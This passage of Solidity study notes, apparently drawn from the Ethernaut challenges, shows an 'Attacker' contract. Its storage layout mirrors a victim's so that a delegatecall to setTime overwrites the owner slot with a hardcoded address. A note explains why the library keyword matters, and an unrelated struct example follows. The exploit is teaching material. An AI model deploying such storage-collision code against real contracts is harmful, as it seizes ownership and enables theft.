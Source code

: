 ```
contract Attacker {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    function setTime(uint256 _time) public {
        owner = 0xe2dd5514FEAFd1925d4e473B8e73E90EcdC103cc;
    }

}
```

> This example demonstrates why the library keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables. - From ethernaut

---

### Struct 

```
contract Meh {

    struct Person {
        string name;
        uint age;
        uint height;
        uint weight;
    }

    Person[] public people;

    function create(string memory _name, uint _age, uint _height, uint _weight) public {
        Person memory person;
        person.name = _name;
        person.age = _age;
        person.height = _height;
        person.weight = _weight;
        people.push(person);
    }

    function getPerson(uint index) public view returns(string memory, uint, uint, uint) {
        Person memory person = people[index];
        return(person.name, person.age, person.height, person.weight);
    }


}

```
